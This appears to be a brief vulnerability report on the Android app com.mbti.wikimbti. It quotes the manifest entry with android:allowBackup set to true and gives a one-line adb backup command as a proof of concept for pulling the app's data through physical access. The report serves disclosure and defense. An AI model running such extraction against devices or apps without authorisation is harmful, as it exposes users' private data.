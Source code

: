 #### com.mbti.wikimbti

MBTI百科是是市场排名最高的查询名人的MBTI手机应用，目前收录了15万+的名人MBTI数据。

com.mbti.wikimbti has an Android manifest file that contains an entry with the android:allowBackup attribute set to true. This could be leveraged by an attacker with physical access to the device.

- package: com.mbti.wikimbti
- version: 0.2
- url: https://os-android.liqucn.com/rj/9639961891368.shtml

```xml
<application android:theme="@style/Theme.WikiMbti.SplashScreen" android:label="@string/app_name" android:icon="@mipmap/ic_launcher" android:name="com.mbti.wikimbti.WikiMbtiApplication" android:allowBackup="true" android:supportsRtl="true" android:extractNativeLibs="false" android:fullBackupContent="@xml/backup_rules" android:usesCleartextTraffic="true" android:networkSecurityConfig="@xml/network_security_config" android:appComponentFactory="androidx.core.app.CoreComponentFactory" android:dataExtractionRules="@xml/data_extraction_rules" android:enableOnBackInvokedCallback="true">
```

poc

```shell
adb backup -apk -shared -f backup.ab com.mbti.wikimbti 
```

![image-20240412174348699](image-20240412174348699.png)